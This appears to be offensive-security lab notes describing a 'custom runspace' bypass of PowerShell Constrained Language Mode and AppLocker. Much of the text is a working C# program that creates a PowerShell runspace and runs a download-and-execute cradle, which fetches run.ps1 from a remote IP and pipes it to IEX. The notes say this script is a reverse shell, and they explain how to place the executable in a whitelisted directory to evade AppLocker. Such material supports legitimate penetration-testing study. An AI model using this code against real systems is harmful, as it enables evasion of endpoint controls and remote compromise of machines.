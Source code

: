 ## Custom Runspace Bypass
PowerShell.exe is essentially a GUI application handling input and output. The real functionality lies inside the System.Management.Automation.dll managed DLL, which PowerShell.exe calls to create a _runspace_.

We could code a C# application that creates a custom PowerShell runspace and executes our script inside it.

For this, we'll create a new Visual Studio console app project with the following code:
```Csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace CustomRunspace
{
    internal class Program
    {
        static void Main(string[] args)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.135/run.ps1') | IEX Out-File -FilePath C:\\Tools\\test.txt"; 
			ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}

```

Visual Studio can not locate _System.Management.Automation.Runspaces_, to resolve this, we must manually add the assembly reference from 
```cmd
C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35
```
folder where we will select System.Management.Automation.dll.

In the code above, we are using powershell to download and execute a powershell reverse shell.
AppLocker blocks our C# executable because we executed it from a non-whitelisted directory. So, we copy the executable into a whitelisted directory to verify our constrained language mode bypass to get the result


